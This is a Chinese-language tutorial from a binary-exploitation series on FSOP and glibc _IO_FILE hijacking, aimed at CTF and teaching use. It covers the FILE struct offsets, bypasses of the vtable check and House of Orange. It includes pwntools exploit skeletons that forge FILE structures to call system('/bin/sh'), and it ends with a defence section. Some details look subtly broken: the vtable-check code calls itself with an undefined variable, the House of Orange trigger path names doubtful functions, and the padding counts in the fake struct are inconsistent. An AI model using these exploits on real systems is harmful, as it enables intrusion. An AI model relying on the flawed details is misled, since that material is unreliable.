

# 二进制漏洞与利用基础（18）· FSOP 与 _IO_FILE 劫持

> [!abstract] TL;DR
> - **`_IO_FILE`** 是 glibc 用于表示文件流（FILE）的核心结构体，stdin/stdout/stderr 均为该类型的全局实例，通过 `_IO_list_all` 链表串联所有已打开的流。
> - **FSOP（File Stream Oriented Programming）** 通过伪造 `_IO_FILE` 结构并篡改其 `vtable` 指针（`_IO_jump_t *`），在程序调用 `fflush`、`exit`、`abort` 等函数遍历 `_IO_list_all` 链表并执行 vtable 虚函数时劫持控制流。
> - glibc 2.24+ 引入 `_IO_vtable_check`，要求 vtable 指针必须落在 `__libc_IO_vtables` 段内，直接替换任意地址的手法失效；绕过方式是**复用段内合法 vtable 的偏移**，如 `_IO_str_jumps` 中的 `_IO_str_overflow`，通过控制结构体其余字段触发任意写或调用 `system`。
> - glibc 2.34 移除了 `__malloc_hook`/`__free_hook`，FSOP 成为当下最主流的堆利用控制流劫持终点。
> - **House of Orange** 是将堆溢出与 FSOP 衔接的经典手法：利用 top chunk 溢出触发 `_IO_flush_all_lockp`，把 fake `_IO_FILE` 结构注入到 `_IO_list_all` 链。

---

## 概述与定位

在完成堆利用系列（[[10.堆漏洞入门]][[17.House-of堆利用系列]]）之后，我们已经能够实现任意地址写——在目标地址上覆盖任意值。问题随之而来：**写哪里？** 早年的答案是 `__malloc_hook`/`__free_hook`/`__realloc_hook`，写入 `system` 或 one_gadget 地址即可 getshell；然而 glibc 2.34（2021 年随 Ubuntu 22.04 进入主流）彻底移除了这三个 hook 全局变量，留下了巨大的真空。

FSOP（File Stream Oriented Programming）填补了这个真空，成为 CTF 与实际漏洞利用中**最重要的控制流劫持终点**。其核心思路是：

1. glibc 维护一个 `_IO_list_all` 全局链表，记录所有打开的文件流（FILE）。
2. `exit()`/`abort()`/`fflush(NULL)` 等函数会遍历该链表，对每个流调用其 `vtable`（虚函数表）中的特定函数，例如 `_IO_overflow`。
3. 若攻击者能伪造链表中某个节点的 `_IO_FILE` 结构——把 vtable 指针、读写指针等字段设置为精心构造的值——就能在上述函数执行时把 CPU 控制权劫持到任意位置。

本篇系统讲解 `_IO_FILE` 结构的每个关键字段、vtable 的组织方式、FSOP 的触发路径、glibc 2.24+ 的 vtable check 及其绕过，以及 wide vtable（`_IO_wfile_jumps`）的利用姿势。

---

## 原理与机制

### glibc 文件流的内部模型

C 标准库的 `FILE` 类型在 glibc 内部实际上是 `struct _IO_FILE_plus`（也写作 `_IO_FILE_plus`），它由两部分组成：

```c
struct _IO_FILE_plus {
    _IO_FILE   file;        /* 核心数据字段，约 216 字节 */
    _IO_jump_t *vtable;     /* 虚函数表指针，紧跟 _IO_FILE 之后 */
};
```

`_IO_FILE` 中存放缓冲区指针、读写状态等运行时数据；`vtable` 指向 `_IO_jump_t` 结构，其中存放一系列函数指针（类似 C++ 虚表），决定 `fread`/`fwrite`/`fflush`/`fclose` 等操作的底层实现。

### `_IO_list_all` 全局链表

glibc 内部维护一个单向链表，链头为全局变量 `_IO_list_all`（`__IO_list_all` 符号），类型为 `_IO_FILE_plus *`。每个 `_IO_FILE` 中偏移 `+0x68` 处有一个 `_chain` 字段，指向链表中的下一个文件流：

```
_IO_list_all
    │
    ▼
 [_IO_FILE_plus: stderr]  _chain ──►  [_IO_FILE_plus: stdout]  _chain ──►  [_IO_FILE_plus: stdin]  _chain ──► NULL
```

程序调用 `fflush(NULL)` 或 `exit()` 时，glibc 会从 `_IO_list_all` 开始，沿 `_chain` 遍历所有节点，对每个"需要刷新"的流调用 vtable 中的 `__overflow` 函数（即 `_IO_overflow`）。

### `_IO_flush_all_lockp` 是触发点

`exit()` 的调用链如下：

```
exit()
  → __run_exit_handlers()
    → _IO_cleanup()
      → _IO_flush_all_lockp()
        → 遍历 _IO_list_all 链表
          → 对每个节点检查条件：_mode == 0 且 _IO_write_ptr > _IO_write_base
            → 调用 _IO_OVERFLOW(fp, EOF)
              → 即 fp->vtable->__overflow(fp, EOF)
```

这里有两个关键条件（glibc 经典版本）：
- `fp->_mode <= 0`（未设置 wide 模式，或模式为负）
- `fp->_IO_write_ptr > fp->_IO_write_base`（写指针超过写缓冲区基址，表示有待刷新内容）

只要伪造的 `_IO_FILE` 满足这两个条件，并且 vtable 中的 `__overflow` 函数指针指向攻击者期望的函数，就可以在 `exit()` 时触发调用。

### vtable：`_IO_jump_t` 结构

```c
struct _IO_jump_t {
    JUMP_FIELD(size_t,     __dummy);
    JUMP_FIELD(size_t,     __dummy2);
    JUMP_FIELD(_IO_finish_t, __finish);
    JUMP_FIELD(_IO_overflow_t, __overflow);    /* +0x18，最常用劫持目标 */
    JUMP_FIELD(_IO_underflow_t, __underflow);  /* +0x20 */
    JUMP_FIELD(_IO_underflow_t, __uflow);      /* +0x28 */
    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
    JUMP_FIELD(_IO_xsputn_t,   __xsputn);
    JUMP_FIELD(_IO_xsgetn_t,   __xsgetn);
    JUMP_FIELD(_IO_seekoff_t,  __seekoff);
    JUMP_FIELD(_IO_seekpos_t,  __seekpos);
    JUMP_FIELD(_IO_setbuf_t,   __setbuf);
    JUMP_FIELD(_IO_sync_t,     __sync);
    JUMP_FIELD(_IO_doallocate_t, __doallocate);
    JUMP_FIELD(_IO_read_t,     __read);
    JUMP_FIELD(_IO_write_t,    __write);
    JUMP_FIELD(_IO_seek_t,     __seek);
    JUMP_FIELD(_IO_close_t,    __close);
    JUMP_FIELD(_IO_stat_t,     __stat);
    JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
    JUMP_FIELD(_IO_imbue_t,    __imbue);
};
```

`__overflow`（偏移 `+0x18`）是最重要的劫持目标：它接收 `fp` 本身作为第一参数（rdi），如果把它改为 `system`，并将 `fp->_flags` 处写入 `"/bin/sh\0"`，调用时就变成 `system("/bin/sh")`。

---

## 结构/算法/伪代码详解

### `_IO_FILE` 完整字段布局

以下是 x86-64 下的字段偏移（glibc 2.27 典型值）：

```c
struct _IO_FILE {
/* +0x00 */  int            _flags;           /* 文件标志，低字节也常被滥用为字符串 */
/* +0x08 */  char          *_IO_read_ptr;     /* 读指针（当前位置） */
/* +0x10 */  char          *_IO_read_end;     /* 读缓冲区末端 */
/* +0x18 */  char          *_IO_read_base;    /* 读缓冲区基址 */
/* +0x20 */  char          *_IO_write_base;   /* 写缓冲区基址（控制 overflow 触发条件） */
/* +0x28 */  char          *_IO_write_ptr;    /* 写指针（须 > _IO_write_base 才触发 overflow） */
/* +0x30 */  char          *_IO_write_end;    /* 写缓冲区末端 */
/* +0x38 */  char          *_IO_buf_base;     /* 缓冲区分配起点 */
/* +0x40 */  char          *_IO_buf_end;      /* 缓冲区分配终点 */
/* +0x48 */  char          *_IO_save_base;
/* +0x50 */  char          *_IO_backup_base;
/* +0x58 */  char          *_IO_save_end;
/* +0x60 */  struct _IO_marker *_markers;
/* +0x68 */  struct _IO_FILE  *_chain;        /* 链表指针：指向下一个 FILE */
/* +0x70 */  int            _fileno;          /* 文件描述符 */
/* +0x74 */  int            _flags2;
/* +0x78 */  __off_t        _old_offset;
/* +0x80 */  unsigned short _cur_column;
/* +0x82 */  signed char    _vtable_offset;
/* +0x83 */  char           _shortbuf[1];
/* +0x88 */  _IO_lock_t    *_lock;            /* 互斥锁指针，fake FILE 中通常置为可写地址或 NULL */
/* +0x90 */  __off64_t      _offset;
/* +0x98 */  struct _IO_codecvt *_codecvt;
/* +0xa0 */  struct _IO_wide_data *_wide_data; /* wide vtable 劫持时用于存放 fake _IO_wide_data */
/* +0xa8 */  struct _IO_FILE *_freeres_list;
/* +0xb0 */  void          *_freeres_buf;
/* +0xb8 */  size_t         __pad5;
/* +0xc0 */  int            _mode;            /* < 0：窄字符模式；> 0：宽字符模式；= 0：未设 */
/* +0xc4 */  char           _unused2[20];
/* +0xd8 */  _IO_jump_t    *vtable;           /* 实际位于 _IO_FILE_plus 中，紧跟 _IO_FILE */
};
/* vtable 偏移 = sizeof(_IO_FILE) = 0xd8 */
```

**构造 FSOP payload 必须设置的最小字段集合**（经典路径）：

| 字段 | 偏移 | 目标值 | 原因 |
|------|------|--------|------|
| `_flags` | +0x00 | `"/bin/sh\0"` 或 `0` | rdi 传给 `__overflow` 第一参数 |
| `_IO_write_base` | +0x20 | 任意小值（如 0） | 满足 `_IO_write_ptr > _IO_write_base` |
| `_IO_write_ptr` | +0x28 | 任意大值（如 1） | 同上，触发 overflow 条件 |
| `_lock` | +0x88 | 可写地址或 `NULL` | 避免 `_IO_acquire_lock` 崩溃 |
| `_mode` | +0xc0 | `0` 或 `-1` | `_mode <= 0` 才走窄字符路径 |
| `vtable` | +0xd8 | fake `_IO_jump_t *` | 控制 `__overflow` 函数指针 |

### FSOP 触发流程（exit 路径）



### 伪造 `_IO_FILE` 的 Python/pwntools 骨架

```python
from pwn import *

# 假设已知 libc 基址 libc_base、system 地址、fake_file_addr（堆上的伪造结构地址）
# 目标：在 exit() 时触发 system("/bin/sh")

def make_fake_file(fp_addr, system_addr, writable_addr):
    """
    构造一块 0xe0 字节的 fake _IO_FILE_plus 数据
    fp_addr      : 该 fake file 在堆上的地址（用于计算 vtable 偏移）
    system_addr  : system() 的绝对地址
    writable_addr: 一个可写的合法地址（用于 _lock 字段）
    """
    fake = b"/bin/sh\x00"  # _flags（偏移 +0x00）作为 system 的参数
    fake += p64(0)          # _IO_read_ptr
    fake += p64(0)          # _IO_read_end
    fake += p64(0)          # _IO_read_base
    fake += p64(0)          # _IO_write_base （+0x20，必须 < _IO_write_ptr）
    fake += p64(1)          # _IO_write_ptr  （+0x28，大于 write_base）
    fake += p64(0)          # _IO_write_end
    fake += p64(0) * 4      # _IO_buf_base ~ _IO_save_end
    fake += p64(0)          # _markers
    fake += p64(0)          # _chain（设为 NULL，终止链表遍历；或接下一 fake node）
    fake += p64(1)          # _fileno（随意）
    fake += p64(0) * 4      # _flags2 ~ _shortbuf
    fake += p64(writable_addr)  # _lock (+0x88)：须为可写地址
    fake += p64(0) * 6      # _offset ~ _freeres_buf
    fake += p64(0)          # __pad5
    fake += p32(0)          # _mode = 0
    fake += b"\x00" * 20    # _unused2
    # 此处 fake 长度 = 0xd8，接下来是 vtable 指针
    # vtable 指向 fake_jumps，fake_jumps[3]（__overflow，偏移 +0x18）= system
    fake_jumps_addr = fp_addr + 0xe0    # fake vtable 紧跟在 file 结构之后
    fake += p64(fake_jumps_addr)        # vtable (+0xd8)

    # fake _IO_jump_t：共 21 个函数指针，__overflow 在 index 3（偏移 +0x18）
    fake += p64(0)           # __dummy
    fake += p64(0)           # __dummy2
    fake += p64(0)           # __finish (+0x10)
    fake += p64(system_addr) # __overflow (+0x18) ← 劫持点
    # 其余函数指针填 0 即可（不会被调用到）
    fake += p64(0) * 17

    return fake
```

### glibc 2.24+ vtable check 原理

glibc 2.24 在 `_IO_vtable_check()` 中加入了如下检查：

```c
void attribute_hidden _IO_vtable_check (void) {
    /* 如果 vtable 落在 __libc_IO_vtables 段内，允许通过 */
    extern const _IO_jump_t __start___libc_IO_vtables;
    extern const _IO_jump_t __stop___libc_IO_vtables;

    if (__glibc_unlikely (fp->vtable < &__start___libc_IO_vtables ||
                           fp->vtable >= &__stop___libc_IO_vtables))
        _IO_vtable_check ();  /* 不在段内则 abort */
}
```

`__libc_IO_vtables` 是 glibc ELF 中的一个只读段，包含所有合法的 vtable 对象：
- `_IO_file_jumps`（普通文件 vtable）
- `_IO_str_jumps`（字符串流 vtable）
- `_IO_wfile_jumps`（宽字符文件 vtable）
- `_IO_wstr_jumps`（宽字符串流 vtable）
- 等约 10 余个合法 vtable

**直接把 vtable 替换成堆地址或 got 表地址的手法从此失效。**

### vtable check 绕过：复用段内函数

既然 vtable 本身须落在段内，攻击者转而**调整 vtable 指针在段内的偏移**，使 `vtable->__overflow`（即 `vtable[3]`，偏移 +0x18）落在另一个合法 vtable 函数上，从而触发一个原本不期望的但有利用价值的函数。

**经典绕过：`_IO_str_jumps` 中的 `_IO_str_overflow`**

`_IO_str_overflow` 函数在内部做如下操作（简化）：

```c
int _IO_str_overflow(_IO_FILE *fp, int c) {
    int flush_only = (c == EOF);
    _IO_size_t pos = fp->_IO_write_ptr - fp->_IO_write_base;
    if (pos >= (_IO_size_t)(fp->_IO_buf_end - fp->_IO_buf_base)) {
        /* 需要扩展缓冲区 */
        _IO_size_t new_size = 2 * pos + (flush_only ? 0 : 1);
        char *new_buf = (char *)
            (*((_IO_strfile *)fp)->_s._allocate_buffer)(new_size);
        /* ... */
    }
    /* ... */
}
```

关键在于 `_s._allocate_buffer`：这是 `_IO_strfile` 结构中用于分配缓冲区的回调函数指针。`_IO_strfile` 是 `_IO_FILE` 的扩展，其 `_s` 字段（`_IO_str_fields`）位于 `_IO_FILE` 末尾。在 x86-64 glibc 中，`_s._allocate_buffer` 位于 fp 偏移 `+0xe0`（略有版本差异）。

攻击者可以：
1. 把 vtable 指针偏移到使 vtable 仍在段内但 `__overflow` 槽位指向 `_IO_str_overflow`。
2. 在 fp`+0xe0` 写入 `system` 地址（`_allocate_buffer`）。
3. 控制 `fp->_IO_buf_end - fp->_IO_buf_base` 和 `fp->_IO_write_ptr - fp->_IO_write_base` 满足扩展条件。
4. 触发时调用 `system(new_size)`；若 `new_size` 可控为某个 `"/bin/sh"` 字符串的地址，即可 getshell。

该技术的精确字段布局需结合 pwndbg 调试确认，不同 glibc 小版本间 `_IO_str_fields` 偏移有差异，实战中必须以本地 libc 版本为准。

### House of Orange 与 FSOP 的衔接

House of Orange（[[17.House-of堆利用系列]]）利用 top chunk 溢出欺骗 malloc，使 `_IO_malloc_alloc` 触发 `_IO_flush_all_lockp`——不需要调用 `exit()`，仅通过 malloc 即可触发 FSOP。其流程：

1. 利用堆溢出修改 top chunk 的 size 字段为一个较小值（且满足 page 对齐等合法性校验）。
2. 再次申请一块大于当前 top chunk 的内存，迫使 malloc 调用 `sysmalloc`，后者调用 `brk`/`mmap` 扩展堆，并在此过程中调用 `_IO_flush_all_lockp`（通过 `__malloc_alloc_failed` → `malloc_printerr` → `abort` → `fflush` 路径）。
3. 在此之前，攻击者已在堆上布置好 fake `_IO_FILE_plus`，并通过部分写修改 `_IO_list_all` 的低字节，使链表指向伪造节点。
4. `_IO_flush_all_lockp` 遍历到伪造节点，触发 `__overflow` 调用。

House of Orange 是将"任意堆溢出"到"FSOP 控制流劫持"的经典桥梁，在 glibc 2.23–2.27 时代（对应 Ubuntu 16.04/18.04）是标准 CTF 解法。

### Wide vtable：`_IO_wfile_jumps` 路径

`_IO_wide_data` 是宽字符支持的扩展结构，位于 fp`+0xa0`（`_wide_data` 字段）。当 `fp->_mode > 0` 时，glibc 会改为调用 `_wide_data->_IO_wide_vtable` 中的函数，而非 `fp->vtable`。

```c
struct _IO_wide_data {
    wchar_t *_IO_read_ptr;
    /* ... 多个 wchar_t 缓冲指针 ... */
    const struct _IO_jump_t *_IO_wide_vtable;  /* 偏移约 +0xe0（版本相关） */
};
```

通过以下手法可以绕过 vtable check（因为 `_IO_wide_vtable` 本身没有段范围检查，仅 `fp->vtable` 有）：

1. 将 fp`+0xd8`（vtable）设为合法的 `_IO_wfile_jumps`（在段内通过检查）。
2. 将 fp`+0xa0`（`_wide_data`）设为攻击者控制的 fake `_IO_wide_data`。
3. 在 fake `_IO_wide_data->_IO_wide_vtable` 处填写任意函数指针——该指针**不受** `__libc_IO_vtables` 段检查约束。
4. 触发宽字符路径，调用 `_IO_wide_vtable->__overflow`，从而执行任意代码。

这种"宽字符双跳"是 glibc 2.24–2.35 时代非常稳定的绕过手法，尤其在 2.28–2.33 libc 版本中被广泛使用。

---

## 工具视角与实战

### pwndbg 查看 FILE 结构

```bash
# 打印 _IO_list_all 链上的所有 FILE 结构
pwndbg> io

# 查看具体 FILE 的字段
pwndbg> p *(struct _IO_FILE_plus *)0x<addr>

# 打印 vtable 内容
pwndbg> p *(struct _IO_jump_t *)(<fp_addr> + 0xd8的值)

# 查看 __libc_IO_vtables 段范围
pwndbg> p &__start___libc_IO_vtables
pwndbg> p &__stop___libc_IO_vtables
```

### 定位关键符号

```python
from pwn import *

libc = ELF("./libc.so.6")

# 关键全局符号
io_list_all    = libc.symbols['_IO_list_all']
io_file_jumps  = libc.symbols['_IO_file_jumps']
io_str_jumps   = libc.symbols['_IO_str_jumps']
io_wfile_jumps = libc.symbols['_IO_wfile_jumps']
system_addr    = libc.symbols['system']

# vtable check 的段边界（用于计算合法偏移）
start_vtables  = libc.symbols['__start___libc_IO_vtables']
stop_vtables   = libc.symbols['__stop___libc_IO_vtables']

print(hex(io_str_jumps - start_vtables))   # 在段内的偏移
```

### one_gadget 配合 FSOP

在 glibc 2.34+ 中，若 `one_gadget` 的约束条件在触发 `__overflow` 时恰好满足（通常要求 rdx 或 rsi 为 NULL 等），可以直接把 `__overflow` 设为 one_gadget 地址，无需构造参数：

```python
from pwn import *
import subprocess

libc = ELF("./libc.so.6")
one_gadgets = [int(x, 16) for x in
               subprocess.check_output(["one_gadget", "--raw", "./libc.so.6"])
               .decode().split()]

# 选一个约束最宽松的（通常第一个）
og = libc_base + one_gadgets[0]
```

### 完整 FSOP exploit 骨架（glibc 2.31，House of Orange 路径）

```python
from pwn import *

# 环境设置
context(arch='amd64', os='linux')
p   = process("./vuln")
elf = ELF("./vuln")
libc= ELF("./libc-2.31.so")

# 第一步：堆信息泄露 → libc_base
# （通过 unsorted bin 泄露 main_arena+96 地址，具体见 [[17.House-of堆利用系列]]）
libc_base   = leaked_addr - libc.symbols['main_arena'] - 96
system_addr = libc_base + libc.symbols['system']
io_list_all = libc_base + libc.symbols['_IO_list_all']
io_str_jumps= libc_base + libc.symbols['_IO_str_jumps']

# 第二步：构造 fake _IO_FILE_plus（House of Orange 写入堆，通过 _IO_list_all 部分写接入）
writable = libc_base + libc.symbols['_IO_buf_base']  # 随便找一个可写地址作 _lock

fake_file  = b"/bin/sh\x00"     # _flags
fake_file += p64(0x61)          # _IO_read_ptr（House of Orange 时还需满足 size 字段）
fake_file += p64(0) * 2         # _IO_read_end, _IO_read_base
fake_file += p64(0)             # _IO_write_base = 0
fake_file += p64(1)             # _IO_write_ptr  > write_base ✓
fake_file += p64(0) * 10        # 其余缓冲区指针
fake_file += p64(0)             # _chain = NULL（链表终止）
fake_file += p64(1)             # _fileno
fake_file += p64(0) * 5
fake_file += p64(writable)      # _lock
fake_file += p64(0) * 6
fake_file += p32(0)             # _mode = 0
fake_file += b"\x00" * 20
# vtable：指向 _IO_str_jumps（在段内，通过 vtable check）
# 同时将 _IO_str_jumps->__overflow（fp+0xe0 的 _allocate_buffer）设为 system
# 具体字段偏移依 libc 版本调整
fake_file += p64(io_str_jumps - 8)  # 偏移使 vtable[3] 落在 _IO_str_overflow

# _s._allocate_buffer（在 fp+0xe0，即 _IO_strfile 的扩展字段）
fake_file += p64(0) * 2
fake_file += p64(system_addr)       # _allocate_buffer = system

# 第三步：通过漏洞写入 fake file，触发 exit 或 malloc 失败路径
# ...（依靶机具体漏洞类型）
```

---

## 安全性与正确使用

> [!caution] 教学声明与使用限制
> **本篇所描述的 FSOP/_IO_FILE 劫持技术，严格以防御视角、安全教育与 CTF 学习为目的。** 文中所有示例需在个人搭建的授权靶场（如 pwn.college、CTFd 平台、本地 qemu 虚拟机）中操作；实际利用须结合信息泄露获取 libc 基址，需关闭相关保护或已绕过 ASLR/canary。
>
> 适用场景：
> - CTF 竞赛 pwn 题目（glibc 2.27–2.35 堆题的主流解法）
> - 授权的漏洞研究与安全评估
> - 高校/企业安全攻防课程实验环境
>
> **严禁在任何未经授权的系统或环境中使用本篇技术。**

### 防御视角：如何加固文件流机制

**1. glibc vtable check（2.24+）**

这是 glibc 官方对 FSOP 的正面回应。将 vtable 检查限制在 `__libc_IO_vtables` 段内，阻断了最朴素的"把 vtable 指向伪造函数表"攻击。但如前文所述，段内 vtable 偏移绕过和 wide vtable 路径仍有效，故 vtable check 是必要的但不充分的防御。

**2. glibc 2.34 移除 hook 变量**

`__malloc_hook`/`__free_hook` 的移除逼迫攻击者转向 FSOP，同时也使利用门槛提升（需要精确构造 `_IO_FILE` 结构，比写一个函数指针更复杂），降低了脚本小子随意利用的可能性。

**3. Full RELRO**

Full RELRO 使 GOT 表在 `main` 启动后变为只读，`_IO_list_all`（位于 libc 数据段）本身不受 RELRO 保护，但 House of Orange 依赖的部分写（修改 `_IO_list_all` 低字节）在现代 glibc 版本中因 `main_arena` 布局变化已不那么稳定。

**4. 安全编码实践**

- 不要把外部输入数据写入可能与 `_IO_FILE` 结构相邻的堆 chunk（避免堆溢出污染 `_chain`/`vtable` 字段）。
- 程序中不必要的全局 `FILE *` 对象是潜在攻击面，应最小化文件流的全局可见性。
- 使用 `fclose()` 及时关闭不再使用的流，减少 `_IO_list_all` 链表上的节点数量，降低伪造节点接入后被遍历到的概率（虽然对已成功写入的攻击无效）。

**5. 堆利用防御**

FSOP 本质上是堆利用的**后期阶段**：没有任意堆写，就无法伪造 `_IO_FILE`。因此现代堆保护（Safe-Linking、随机化 tcache key、chunk size 校验）是最上游的防线，见 [[17.House-of堆利用系列]] 和 [[12.缓解机制总览]]。

---

## 小结

1. **`_IO_FILE_plus` 是 glibc 文件 I/O 的核心结构**，其 `vtable` 字段决定所有 I/O 操作的底层实现；`_IO_list_all` 全局链表将所有打开的流串联在一起，`exit()`/`abort()` 等路径会遍历该链并调用 vtable 函数。

2. **FSOP 的本质是劫持 vtable 中的函数指针**：只要能在堆上伪造一个满足条件（`_mode <= 0`、`write_ptr > write_base`、有效 `_lock`）的 `_IO_FILE_plus`，并将其 `_chain` 字段接入 `_IO_list_all` 链，就可以在下一次 `_IO_flush_all_lockp` 时触发任意函数调用。

3. **glibc 2.24 的 vtable check 是必须绕过的屏障**：段内偏移绕过（调整 vtable 指针使 `__overflow` 槽位落到 `_IO_str_overflow`）和 wide vtable 双跳（通过 `_wide_data->_IO_wide_vtable` 绕开检查）是两类主流绕过手法，各有适用的 glibc 版本范围。

4. **glibc 2.34+ 移除 hook 后，FSOP 成为主流终点**：深入理解 `_IO_FILE` 每个字段的含义和偏移，是做现代 glibc 堆题的必备技能。pwndbg 的 `io` 命令、`_IO_list_all` 链追踪是调试 FSOP 的核心工具。

5. **House of Orange 是 FSOP 的经典入口**：通过 top chunk 溢出触发 malloc 失败路径，无需显式调用 `exit()`，是将堆溢出转化为 FSOP 的教科书级连接器，适用于 glibc 2.23–2.27 的靶环境。

---

## 相关阅读

- [[17.House-of堆利用系列]] — House of Orange 及其他 fake chunk 技术
- [[10.堆漏洞入门]] — UAF、double free 等漏洞原语
- [[09.堆管理基础]] — glibc malloc 内部机制，bins 与 chunk 布局
- [[13.现代利用与信息泄露]] — libc 基址泄露，FSOP 的必要前置
- [[12.缓解机制总览]] — ASLR/RELRO/Safe-Linking 全景
- [[19.利用自动化与工具链]] — pwntools/pwndbg/one_gadget 工具集成
- [[00.二进制漏洞与利用基础总览]] — 本系列导航

---

⬅️ 上一篇 [[17.House-of堆利用系列]] ｜ 🏠 [[00.二进制漏洞与利用基础总览]] ｜ 下一篇 [[19.利用自动化与工具链]] ➡️
